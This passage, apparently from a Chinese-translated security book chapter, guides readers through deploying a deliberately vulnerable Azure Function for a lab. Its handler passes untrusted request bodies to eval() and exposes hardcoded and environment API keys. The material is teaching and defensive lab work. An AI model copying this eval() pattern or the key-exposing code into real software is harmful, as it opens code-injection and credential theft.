







## 第 11 章. Hacking and Securing Azure Functions

在过去的几章中，你探索了攻击者如何利用 AWS 和 Google Cloud 上运行的无服务器应用程序中的漏洞和错误配置。你检查了未应用最小权限原则的后果，并亲身体验了过于宽泛的权限如何使攻击者能够提升权限、窃取敏感数据、设置后门并破坏整个云帐户。通过模拟真实世界的攻击和防御场景，你学习了如何识别错误配置、评估防御措施并应用各种策略来保护在 AWS 和 Google Cloud 上运行的无服务器应用程序。

在本章中，你将把重点转移到 Microsoft Azure，并探索攻击者如何滥用云平台上运行的无服务器应用程序中的错误配置和漏洞。如同前几章一样，你将准备一个有意设计为易受攻击的无服务器应用程序，使用不安全的默认设置和错误配置进行配置，以便你可以安全地模拟攻击者利用各种漏洞和安全问题。你将首先设置一个易受攻击的 Azure 函数，然后继续模拟攻击者利用该函数中的代码注入漏洞。为了加快安全测试模拟的速度，你将准备并使用一个自定义脚本，该脚本可自动化向易受攻击函数的调用端点发送自定义恶意负载、捕获并返回函数的响应，并允许你通过读取-求值-打印循环（REPL）进行交互式迭代，如 Figure 11-1 所示。



你还将把密钥存储在 Azure Key Vault 中，并探索代码注入漏洞与过于宽松的管理身份结合时，攻击者如何利用其窃取这些密钥。你会看到，虽然使用 Azure Key Vault 等密钥管理器服务被认为是一种最佳实践，但它并非万无一失，因为配置不当的身份或过于宽泛的权限仍可能允许攻击者窃取保存在保管库中的凭据和其他敏感密钥。

本章将涵盖以下内容：

* “Setting Up and Deploying a Vulnerable-by-Design Serverless Function”
* “Exploiting the Vulnerable Serverless Function”
* “Storing Secrets in Azure Key Vault”
* “Abusing an Overly Permissive Managed Identity to Exfiltrate Key Vault Secrets”

到本章结束时，你将更好地具备识别 Azure 上无服务器应用程序中的错误配置和漏洞的能力，重现攻击者如何利用它们，并开发自定义脚本和工具来加速和自动化安全测试和验证。

### Reviewing Technical Prerequisites

对于本章，你将使用两个 Azure 帐户：Serverless Lab 帐户用于托管易受攻击的按设计实验室环境，以及 Attacker 帐户用于模拟攻击和测试安全控制。强烈建议使用全新的帐户且没有任何现有资源，以最大程度地减少安全相关副作用并确保实验室环境按预期运行。保持两个帐户在单独的浏览器会话（或隐身/隐私窗口）中打开，以避免会话冲突。

#### Note

为了帮助你完成练习和模拟，本章中使用的代码和命令的副本可在 [GitHub gist (see `ch11.md`)](https://oreil.ly/0mSPU) 中获得。

### Setting Up and Deploying a Vulnerable-by-Design Serverless Function

在 Chapter 2 中，你探索了实现无服务器运营模式的各种实现模式、架构和云服务。你了解到，一旦你理解了无服务器设计的 fundamentals，你就可以轻松地将这些概念映射到 Azure 等云平台。例如，如果你在 Azure 上构建无服务器 Web 应用程序或 API，你将使用 Azure Functions 处理计算任务，使用 Azure Blob Storage 存储应用程序数据和资产，并使用 Azure API Management、Event Grid 和 Service Bus 等支持服务来管理集成和事件驱动的工作流。此外，你还将使用 Azure Key Vault 安全地存储和管理密钥、凭据和其他敏感配置值。虽然这些服务处理了大部分运营复杂性，但正确保护它们仍然是你的责任，因为错误配置可能导致数据泄露、未经授权的访问或无服务器应用程序的完全入侵。同时，了解攻击者如何发现和利用这些错误配置对于确保你的无服务器应用程序免受真实世界威胁的攻击至关重要。

在本节中，你将主要关注 Azure Functions，并设置一个易受攻击的按设计无服务器函数，以便你探索攻击者如何发现和利用代码注入等漏洞来破坏函数并窃取源代码、硬编码密钥和环境变量。为了简化本章的模拟，我们不会实现前端界面，而是完全专注于无服务器函数，如 Figure 11-2 所示。




更具体地说，你将设置一个有意设计为易受攻击的无服务器函数，使用 Node.js 并通过 `eval()` 来计算数学表达式，例如 `(5 - 4) * 23`。你将首先使用内置的 HTTP 触发器模板部署一个函数应用。然后，你将在此初始设置的基础上进行构建，通过修改函数代码并将其替换为容易受到代码注入攻击的自定义实现。为了确保只有你能够调用和测试该无服务器函数，它将被配置为需要有效的函数密钥。这将在你进行动手示例时帮助保护你的函数以及整体 Azure 账户。

在你深入动手部分之前，让我们先定义本章工作中相关的几个关键术语：

##### Azure Cloud Shell

一个托管在云中的基于浏览器的 shell 环境，预配置了代码编辑器和常用的 CLI 工具。如果你使用过 AWS CloudShell 或 Google Cloud Shell，你会发现 Azure Cloud Shell 体验很熟悉，因为它提供了一个类似的基于浏览器的环境。

##### 资源组

一个逻辑容器，用于将相关的 Azure 资源分组，以便你可以一起管理、更新和删除它们。例如，如果你有一个 Azure 函数、其关联的存储账户和一个 Key Vault，你可以将它们全部放在一个资源组中以便一起管理、更新或删除。

##### 存储账户

为诸如 blob、文件、队列、表和磁盘等数据对象提供安全、持久且高度可用的云存储。

##### Azure Functions

一种无服务器计算服务，根据 HTTP 请求、计时器、blob 上传或队列消息等触发器运行事件驱动的代码。如果你使用过 AWS Lambda 或 Google Cloud Run 函数，你会发现 Azure Functions 遵循相同的事件驱动模型，会在触发时自动运行你的代码，而无需管理服务器。

##### 函数应用

一个或多个 Azure 函数的托管容器。它定义了运行时堆栈、托管计划、应用设置和管理身份。函数应用为你的函数提供执行环境，包括缩放行为、网络和身份验证配置。

##### 函数密钥

用于对 Azure 函数的请求进行身份验证和授权的秘密令牌。它确保只有拥有正确密钥的客户端才能调用该函数。

##### Azure 命令行界面 (CLI)

一个跨平台命令行实用程序，让你可以直接从终端通过简单、可脚本化的命令创建、配置和管理 Azure 资源。^1 例如，如果你想创建一个新的资源组，你可以运行 `az group create --name $RESOURCE_GROUP --location $LOCATION` 来在特定的 Azure 区域中进行配置。

这些 Azure 服务、组件和工具充当了前几章中 AWS 和 Google Cloud 的对应物。就像你使用 AWS Lambda 函数、IAM 角色和 S3 存储桶或 Google Cloud Run 服务、IAM 角色和权限以及 Cloud Storage 存储桶一样，Azure 提供了创建、保护和管理无服务器应用程序的类似构建块。虽然这些对应物可能并不完全相同，但理解它们的功能和关系将帮助你在多个云平台上应用一致的安全实践和运营策略。

本节中你将部署的易受攻击的函数使用了硬编码的凭据和环境变量，将敏感的访问密钥暴露给第三方服务。如果攻击者能够利用函数中的代码注入漏洞，他们可能会窃取这些凭据并使用它们来获得对数据库、存储桶和 API 的未经授权的访问。

#### Note

本节假设你正在使用你的 Serverless Lab 账户，该账户将托管易受攻击的无服务器实验室资源。一旦你完成了本章和接下来的两章中的动手示例，请务必查看并删除你在 Azure 账户中创建的所有资源，以避免不必要的费用并降低潜在的安全风险。

让我们逐步介绍设置和部署你的易受攻击的无服务器函数：

1. 在浏览器标签页中打开 [*https://portal.azure.com*](https://portal.azure.com) 并使用你的 Serverless Lab 账户登录。

2. 通过点击 Azure 门户顶部导航栏中的 `>_` 图标启动 Azure Cloud Shell。

   #### Note

   首次启动时，你将经历 Cloud Shell 的初始设置过程。系统提示选择 Bash 或 PowerShell 时，选择 Bash 作为你的 shell 环境。然后，为确保文件在会话之间得以保留，选择“Mount storage account”，选择相应的存储账户订阅，然后从挂载存储账户的选项列表中选择“We will create a storage account for you”。

3. 在 Cloud Shell 终端中运行以下命令（在 `$` 符号之后）以创建函数项目的目录并导航到该新目录：

   ```
   mkdir -p vulnerable-function
   cd vulnerable-function
   ```

4. 将 `RANDOM` 内置 shell 变量中存储的随机数复制到一个单独的环境变量（`$RAND`）：^2

   ```
   RAND=$RANDOM
   
   echo $RAND
   ```

   请记下此值，因为它将在本章中用于生成 Azure 资源的唯一名称。

5. 定义你在设置易受攻击的无服务器函数时将使用的环境变量：

   ```
   RESOURCE_GROUP=rg-serverless-security-lab
   STORAGE_ACCOUNT=storageaccount$RAND
   FUNCTION_APP=functionapp$RAND
   LOCATION=eastus
   ```

6. 将你在上一步中定义变量保存到名为 `function-vars.sh` 的 shell 脚本文件中：

   ```
   cat <<EOF > function-vars.sh
   export RESOURCE_GROUP="$RESOURCE_GROUP"
   export STORAGE_ACCOUNT="$STORAGE_ACCOUNT"
   export FUNCTION_APP="$FUNCTION_APP"
   export LOCATION="$LOCATION"
   EOF
   ```

   #### Tip

   如果你开始了一个新的 shell 会话或丢失了当前 shell 状态，你可以通过运行 `source function-vars.sh` 重新加载环境变量。

7. 创建一个新的资源组，用于组织和分组你的无服务器应用程序的资源：

   ```
   az group create --name $RESOURCE_GROUP --location $LOCATION
   ```

   这会产生以下输出：

   ```
   {
     "id": "/subscriptions/.../resourceGroups/rg-serverless-security-lab",
     "location": "eastus",
     "managedBy": null,
     "name": "rg-serverless-security-lab",
     "properties": {
       "provisioningState": "Succeeded"
     },
     "tags": null,
     "type": "Microsoft.Resources/resourceGroups"
   }
   ```

8. 接下来，创建一个将由你的函数应用使用的存储账户：^3

   ```
   az storage account create \
     --name $STORAGE_ACCOUNT \
     --location $LOCATION \
     --resource-group $RESOURCE_GROUP \
     --sku Standard_LRS
   ```

   经过几秒钟后，这应该会产生以下输出：

   ```
   {
     "accessTier": "Hot",
     "accountMigrationInProgress": null,
     "allowBlobPublicAccess": false,
   
     ...
   
     "sku": {
       "name": "Standard_LRS",
       "tier": "Standard"
     },
     "statusOfPrimary": "available",
     "statusOfSecondary": null,
     "storageAccountSkuConversionStatus": null,
     "tags": {},
     "type": "Microsoft.Storage/storageAccounts"
   }
   ```

9. 创建一个 Azure 函数应用来托管你的易受攻击的函数：^4


```
RUNTIME_VERSION=22

az functionapp create \
  --resource-group $RESOURCE_GROUP \
  --consumption-plan-location $LOCATION \
  --runtime node \
  --runtime-version $RUNTIME_VERSION \
  --functions-version 4 \
  --name $FUNCTION_APP \
  --storage-account $STORAGE_ACCOUNT
```

请确保将 `RUNTIME_VERSION` 设置为 Azure Functions 支持的 Node.js 版本。^(5)

过一分钟左右，你应该会收到以下输出信息，表明你的函数应用已成功创建：

```
Application Insights "functionapp..." was created for this Function App. You can visit https://portal.azure.com/#resource/subscriptions/.../resourceGroups/rg-serverless-security-lab/providers/microsoft.insights/components/functionapp.../overview to view your Application Insights component
```

```
{
  "availabilityState": "Normal",
  "clientAffinityEnabled": false,
  "clientCertEnabled": false,
  "clientCertExclusionPaths": null,
  "clientCertMode": "Required",

  ...

  "usageState": "Normal",
  "virtualNetworkSubnetId": null,
  "vnetContentShareEnabled": false,
  "vnetImagePullEnabled": false,
  "vnetRouteAllEnabled": false,
  "workloadProfileName": null
}
```

##### 10. 使用 Node.js 作为运行时初始化一个新的 Azure Functions 项目：^(6)

```
func init --worker-runtime node --language javascript
```

这会产生以下日志输出：

```
The new Node.js programming model is generally available. Learn more at https://aka.ms/AzFuncNodeV4
```

```
Writing package.json
Writing .funcignore
Writing .gitignore
Writing host.json
Writing local.settings.json
Writing /.../vulnerable-function/.vscode/extensions.json
Running 'npm install'...
```

#### Note

在此步骤中，你正在使用 Azure Functions Core Tools——一个用于从命令行构建、管理和调试 Azure Functions 的本地开发和测试 CLI。你可以使用此 CLI 创建新函数、在本地运行它们、连接到 Azure 资源并将函数应用部署到云端。

##### 11. 让我们看看 `func init` 命令在上一步中创建的项目结构和文件。列出 `vulnerable-function` 目录中的文件和目录：

```
ls -1ahF
```

这应该会给出以下文件和目录：

```
./
../
.funcignore
function-vars.sh
.gitignore
host.json
local.settings.json
node_modules/
package.json
package-lock.json
src/
.vscode/
```

下表更详细地描述了这些文件和目录：

| File/directory || Description |
| --- | --- |
| `.funcignore` || 用于指定在发布函数应用时排除哪些文件和文件夹的配置文件 |
| --- | --- |
| `function-vars.sh` || 你在之前的步骤中创建的脚本，其中包含环境变量 `RESOURCE_GROUP`、`STORAGE_ACCOUNT`、`FUNCTION_APP`、`LOCATION` |
| `.gitignore` || 用于指定 Git 应忽略哪些文件和目录的配置文件 |
| `host.json` || Azure Functions 运行时的全局配置文件 |
| `local.settings.json` || 用于存储在本地运行函数时使用的应用设置、连接字符串和密钥的文件 |
| `node_modules/` || 包含已安装的 `npm` 依赖项的目录 |
| `package.json` || 包含函数应用的项目元数据、依赖项和脚本的配置文件 |
| `package-lock.json` || 用于锁定确切依赖项版本而自动生成的文件 |
| `src/` || 包含你的函数代码的目录 |

运行此命令以显示项目结构，最多显示两级深度：

```
find . -maxdepth 2
```

这会给出以下输出：

```
.
./package-lock.json
./node_modules
./node_modules/.bin
./node_modules/.package-lock.json
./node_modules/cookie
./node_modules/undici
./node_modules/azure-functions-core-tools
./node_modules/long
./node_modules/@fastify
./node_modules/@azure
./.funcignore
./function-vars.sh
./.vscode
./.vscode/extensions.json
./local.settings.json
./package.json
./.gitignore
./host.json
./src
./src/functions
```

##### 12. 生成一个名为 `evaluate` 的新函数：

```
func new --name evaluate --template "HTTP trigger" --authlevel "anonymous"
```

完成后，这应该会产生以下输出：

```
Function name: [httpTrigger] Creating a new file /.../vulnerable-function/src/functions/evaluate.js
The function "evaluate" was created successfully from the "HTTP trigger" template.
```

这里，`func new` 创建了 `evaluate.js` 文件，其中包含你的新 HTTP 触发函数的基础代码。

##### 13. 让我们看看刚刚生成的 `evaluate.js` 函数。递归列出 `src` 目录中的所有文件和子目录：

```
ls -R src
```

这会产生以下输出：

```
src:
functions

src/functions:
evaluate.js
```

使用 `cat` 命令检查 `evaluate.js` 中的内容：

```
cat src/functions/evaluate.js
```

这会返回以下代码行：

```
const { app } = require('@azure/functions');

app.http('evaluate', {
    methods: ['GET', 'POST'],
    authLevel: 'anonymous',
    handler: async (request, context) => {
        context.log(`Http function processed request for url
            "${request.url}"`);

        const name = request.query.get('name') || await request.text()
            || 'world';

        return { body: `Hello, ${name}!` };
    }
});
```

这里，`evaluate.js` 文件包含使用“HTTP trigger”模板生成的样板代码。

##### 14. 部署你的函数应用：

```
func azure functionapp publish $FUNCTION_APP
```

这会产生以下输出：

```
Setting Functions site property 'netFrameworkVersion' to 'v8.0'
Getting site publishing info...
[2025-00-00T00:00:00.000Z] Starting the function app deployment...
Creating archive for current directory...
Uploading 625.52 KB [#########################################]
Upload completed successfully.
Deployment completed successfully.
[2025-00-00T00:00:00.000Z] Syncing triggers...
Functions in functionapp...:
    evaluate - [httpTrigger]
        Invoke url: https://functionapp....azurewebsites.net/api/evaluate
```

##### 15. 在新的浏览器标签页中打开输出中显示的 `Invoke url` 值，以确认函数按预期工作。

#### Note

你应该会看到消息 `Hello, world!`，这证实了一切都已正确设置。

##### 16. 切换回 Cloud Shell 终端，然后运行以下命令以检索已部署函数应用的详细信息（`$` 符号之后）：

```
az functionapp show \
  --resource-group $RESOURCE_GROUP \
  --name $FUNCTION_APP
```

这会给出以下输出：

```
{
  "appServicePlanId": "...",
  "availabilityState": "Normal",
  "clientAffinityEnabled": false,
  "clientCertEnabled": false,

  ...

  "vnetImagePullEnabled": false,
  "vnetRouteAllEnabled": false,
  "workloadProfileName": null
}
```


17. 由于上一步的 JSON 输出包含许多你暂时不需要的其他属性，请运行以下命令来获取你的函数应用的主机名：

```
az functionapp show \
  --resource-group $RESOURCE_GROUP \
  --name $FUNCTION_APP \
  --query defaultHostName \
  -o tsv
```

这应该返回以 `azurewebsites.net` 结尾的主机名。

18. 你也可以使用以下命令来获取你的函数的 Invoke URL：

```
az functionapp function list \
  --resource-group $RESOURCE_GROUP \
  --name $FUNCTION_APP \
  --query "[].invokeUrlTemplate" \
  -o json
```

这会产生以下输出：

```
[
  "https://functionapp....azurewebsites.net/api/evaluate"
]
```

目前，你有一个使用脚手架模板代码的工作无服务器函数。在接下来的步骤中，你将把它转换为一个有意设计为易受攻击的函数，该函数使用 `eval()` 来计算数学表达式：

1. 点击 Editor 以访问 Cloud Shell 的内置代码编辑器（Figure 11-3）。



2. 如果提示切换到 Classic Cloud Shell，请选择 Confirm。

3. 导航到 `vulnerable-function` 目录：

```
cd ~/vulnerable-function
```

4. 配置函数应用以将示例 API 密钥（`SAMPLE_API_KEY`）作为环境变量包含在内：

```
source function-vars.sh

az functionapp config appsettings set \
  --name $FUNCTION_APP \
  --resource-group $RESOURCE_GROUP \
  --settings SAMPLE_API_KEY=12345abcdef
```

#### Note

`SAMPLE_API_KEY` 用作真实 API 密钥或密钥的占位符。请勿在你的实验环境中使用真实凭据，因为此示例旨在展示无服务器函数环境变量如何通过攻击者通过错误配置和不安全编码实践访问或利用。

5. 找到并点击“Open editor”按钮（`{}`），在 Figure 11-4 中突出显示，以打开集成代码编辑器并直接在 Azure 门户中修改你的函数文件。



这应该启动集成的 Cloud Shell 代码编辑器——允许你直接在 Azure 门户内查看和编辑你的函数代码。

6. 在代码编辑器中打开 `vulnerable-function/src/functions/evaluate.js`。

7. 用以下内容替换 `evaluate.js` 中的代码，使其返回 `SAMPLE_API_KEY` 环境变量的值：

```
const { app } = require('@azure/functions');

const HARDCODED_KEY = "67890ghijkl";

app.http('evaluate', {
    methods: ['GET', 'POST'],
    authLevel: 'anonymous',
    handler: async (request, context) => {
        const key = process.env.SAMPLE_API_KEY;

        return { body: `SAMPLE_API_KEY=${key}` };
    }
});
```

在这里，你有一个示例函数，其中包含硬编码密钥（`HARDCODED_KEY`）以及环境变量（`SAMPLE_API_KEY`），它允许函数访问各种服务和资源。例如，函数可以使用硬编码密钥（`HARDCODED_KEY`）和环境变量（`SAMPLE_API_KEY`）来连接到外部 API 端点。

8. 在 Cloud Shell 终端（`$` 符号之后）中，运行以下命令将更新后的函数代码（`evaluate.js`）部署到你的函数应用：

```
func azure functionapp publish $FUNCTION_APP
```

#### Note

如果在运行 `func azure functionapp publish`（或其他 CLI 命令）时遇到 `Response status code does not indicate success: 401 (Unauthorized)`，请尝试重新进行身份验证（或者，你可以刷新页面然后再尝试运行命令）。

9. 在新的浏览器标签页中打开输出中显示的 Invoke URL，以确认函数能够成功加载环境变量（`SAMPLE_API_KEY`）。你应该得到以下内容：

```
SAMPLE_API_KEY=12345abcdef
```

10. 在代码编辑器中打开 `vulnerable-function/src/functions/evaluate.js`。用以下有意设计为易受攻击的表达式求值器代码替换 `evaluate.js` 的内容：

```
const { app } = require('@azure/functions');

const HARDCODED_KEY = "67890ghijkl";

app.http('evaluate', {
  methods: ['POST'],
  authLevel: 'function',
  handler: async (request, context) => {
    const expression = await request.text() || '"No expression provided"';

    let result;
    try {
      result = eval(expression);
    } catch (err) {
      result = `Error: ${err.message}`;
    }

    return { body: `Evaluation result: ${result}` };
  }
});
```

在这里，除了拥有硬编码密钥外，你还有一个使用 `eval()` 执行不受信任输入的函数，这使得攻击者可以轻松地窃取授予跨云平台和第三方服务访问权限的敏感凭据。

#### Note

由于代码中使用的凭据仅为示例占位符，其余易受攻击的函数已被省略，以保持示例的聚焦和清晰。

11. 在终端中运行以下命令以部署最新更改：

```
func azure functionapp publish $FUNCTION_APP
```

12. 在新的浏览器标签页中打开 Invoke URL。你现在应该得到以下消息，因为 `authLevel` 设置为 `function`：

```
This functionapp....azurewebsites.net page can't be found

No webpage was found for the web address...
HTTP ERROR 404
```

#### Note

当 `authLevel` 设置为 `function` 时，你必须在请求中包含有效的函数密钥才能成功调用端点。由于此函数是有意设计为易受攻击的，此设置可确保只有你才能调用和测试它（来自 Attacker 账户），而不是将其暴露给攻击者利用。

13. 切换回 Cloud Shell 终端，然后运行以下命令（在 `$` 符号之后）将函数的 Invoke URL 存储在环境变量（`INVOKE_URL`）中：

```
INVOKE_URL="[SPECIFY INVOKE URL]"
```

在运行命令之前，请务必将 `[SPECIFY INVOKE URL]` 替换为函数的 Invoke URL。

14. 准备就绪后，让我们测试已部署的函数。检索函数应用中 `evaluate` 函数的函数密钥：

```
KEY=$(az functionapp function keys list \
  --resource-group $RESOURCE_GROUP \
  --name $FUNCTION_APP \
  --function-name evaluate)

echo $KEY
```

以下是输出：

```
{
  "default": "...",
  "id": null,
  "kind": null,
  "name": null,
  "properties": null,
  "type": null
}
```

从检索到的密钥中提取默认函数密钥：

```
FUNCTION_KEY=$(echo $KEY | jq -r ".default")
echo $FUNCTION_KEY
```

#### Caution

请勿公开或共享你的函数密钥，因为任何拥有此密钥的人都可以调用你的有意设计为易受攻击的函数。

